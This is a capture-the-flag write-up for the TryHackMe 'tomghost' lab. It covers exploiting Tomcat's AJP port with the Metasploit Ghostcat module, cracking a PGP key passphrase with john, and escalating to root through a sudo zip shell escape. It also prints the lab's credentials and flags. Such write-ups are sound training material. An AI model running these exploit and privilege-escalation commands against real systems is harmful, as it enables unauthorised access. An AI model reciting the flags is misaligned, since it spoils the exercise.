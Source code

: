 # tomghost
https://tryhackme.com/room/tomghost

export target=10.10.111.174

## Compromise this machine and obtain user.txt
I scanned the machine using nmap:

22/tcp   open  ssh        syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped syn-ack
8009/tcp open  ajp13      syn-ack Apache Jserv (Protocol v1.3)
8080/tcp open  http       syn-ack Apache Tomcat 9.0.30

I ran searchsploit with the query:
`searchsploit tomcat ajp` which let me know that metasploit has an exploit for this called "Ghostcat"

I run the following commmands
```
msfconsole -q
msf6 > search ghostcat
msf6 > use auxiliary/admin/http/tomcat_ghostcat
msf6 > set RHOSTS <target ip>
msf6 > show options

   AJP_PORT  8009              no        The Apache JServ Protocol (AJP) port
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS    <target ip>       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     8080              yes       The Apache Tomcat webserver port (TCP)
   SSL       false             yes       SSL

msf6 > run
```

This gives us a username & password:
`skyfuck:8730281lkjlkjdqlksalks` which we can use for SSH access.

We need to find the user.txt file so I checked the /home directory for other users and there is a user called merlin.
So I check that user's directory and find a file called user.txt which contains the flag:

THM{GhostCat_1s_so_cr4sy}

## Escalate privileges and obtain root.txt
Tried: `sudo -l `
Nothing was available on the skyfuck user.

Tried: `find / -user root -perm -4000 -print 2>/dev/null`
Nothing special here.

Checked files in skyfuck user home directory:
- credential.pgp: PGP Encrypted message?
- tryhackme.asc: PGP Private Key Block

Transfered files to local machine using scp:
`scp skyfuck@<ip>:/home/skyfuck/<file> .`

Tried to import pgp private key from tryhackme.asc - it's password protected.
`gpg --import tryhackme.asc`

Extracted hash using gpg2john:
`gpg2john tryhackme.asc > hash.txt`

Then attempted to crack password:
`john hash.txt --wordlist=<rockyou_utf8>`
Password found: alexandru

imported gpg key with new password and decrypted .pgp file
`gpg --decrypt credential.pgp`

merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j

Logged into merlin user via SSH.
Tried: `sudo -l`
Found sudo usage for zip: https://gtfobins.github.io/gtfobins/zip/#sudo

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

I then found the flag in /root/root.txt

THM{Z1P_1S_FAKE}
